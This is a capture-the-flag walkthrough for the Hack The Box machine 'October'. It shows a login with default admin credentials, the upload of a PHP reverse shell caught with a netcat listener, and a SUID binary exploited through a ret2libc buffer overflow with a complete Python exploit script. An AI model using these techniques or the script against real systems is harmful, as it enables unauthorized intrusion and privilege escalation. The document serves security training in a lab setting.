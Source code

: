 # October

## Info
  * IP : 10.10.10.16
  * OS : Linux
  * Difficulty: Medium

## System Enumeration
 
### Nmap

![Nmap](boxImages/October/nmap.png "Nmap")

### Dirbuster

![Dirbuster](boxImages/October/dirbuster.png "Dirbuster")

### WebPortal

![Web Portal](boxImages/October/webportal.png "Vanilla CMS")

#### Backend

![Web Backend](boxImages/October/backend.png "October Backend")


## Exploitation
 
Trying the default user and password, i.e, `admin` and `admin`, we manage to get in and see that there is a media tab.  
This opens up the possibility of a reverse shell upload.  
Since the already uploaded file is in php5, I renamed my shell from php to php5, just to ensure that I'll be successful in uploading a shell.  

![PHP Uploaded](boxImages/October/uploadphp.png "PHP Shell")

We create a netcat listener on our local machine using `nc -lvnp 1234`.  
Click on the uploaded file and view it.  

And voila! We have a shell.

### User Exposed

Simple enumeration let's us find `user.txt` and read it even though we are `www-data`.

![User Exposed](boxImages/October/userExposed.png "Exposed User")

## Privilege Escalation

Now, to obtain `root.txt`, we need to escalate our privileges to root.

As a first step, I always use `find / -perm -4000 -type f 2>/dev/null` to find SUID binaries and luckily enough, we find `/usr/local/bin/ovrflw`.  
Running `ovrflw` tells us that it needs an input string.  
This can be exploited using a Ret2Lib Attack.  

To debug further, I downloaded the binary to my local machine using base64 conversions.  
  1. On host machine, base64 /usr/local/bin/ovrflw  
  2. Copy the output and store it in a file on your machine  
  3. Use `base64 -d <localfile.b64> > ovrflw`  
  4. chmod +x ovrflw  
  5. gdb ovrflw  

Using `pattern_create 200`, we create a unique pattern of 200 characters and pass it to ovrflw as argument

![Segmentation Fault](boxImages/October/segfault.png "Seg Fault")

Now we use `pattern_offset <segfault_address>` to find where the buffer overflow occured.

![Offset Found](boxImages/October/offsetFound.png "Offset Found")

### Creating a payload

Now, to successfully perform ret2lib attack, we have to perform buffer overflow by passing it to the binary `ovrflw`.  

Required addresses:
  * System address
  * Exit address(which can be anything)
  * Address of /bin/sh

But first we have to check if ASLR is enabled. If ASLR is enabled our <libbase> address keeps on changing and if not, we can simply use the addresses as we obtain them.  

To check if ASLR is enabled, simply use `ldd /usr/local/bin/ovrflw` 2 to 3 times:

![ASLR LDD](boxImages/October/ldd.png "ASLR is enabled")

As can be observed from the screenshot, the libbase address changes everytime we use `ldd`.  

We will proceed to create our payload accordingly.  

Select any one of the addresses for libBase. I used the first one, i.e, `libbase = 0xb75c4000`
#### Getting Required Offsets

So we know that the libbase is at `/lib/i386-linux-gnu/libc.so.6`.  

To get our offsets, we are going to use the `readelf` command.  

Step 1: For system, we use `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system`
	![System Offset](boxImages/October/systemOffset.png "Offset Found")
Step 2: For exit, we use `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit`
	![Exit Offset](boxImages/October/exitOffset.png "Offset Found")
Step 3: For the offset of /bin/sh we have to use strings, i.e, `strings -a -t /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh`
	![/bin/sh Offset](boxImages/October/binshOffset.png "Offset Found")

Now we have all our offsets, it's time to create a payload.  

#### Creating bufferOverflow.py

```
import subprocess,struct

libBase = 0xb75c4000
system_Off = 0x00040310
exit_Off = 0x00033260
binsh_Off = 0x00162bac

system_addr = struct.pack("<I", libBase + system_Off)
exit_addr = struct.pack("<I", libBase + exit_Off)
binsh_addr = struct.pack("<I",libBase + binsh_Off)

payload = “A”*112
payload += system_addr
payload += exit_addr
payload += binsh_addr

i =0
while True:
    i+=1
    print “Attempts: ” + str(i)
    subprocess.call(["/usr/local/bin/ovrflw", payload])
```

The reason we added a loop is because the `libc` address is constantly changing. Therefore, to ensure that we reach the right libc address, we keep on running our script.  

### Execution

Simply execute `python bufferOverflow.py`.  

![Overflow](boxImages/October/bufferOverflow.png "Overflow")

And we are root:

![Pwnage](boxImages/October/owned.png "Rooted")
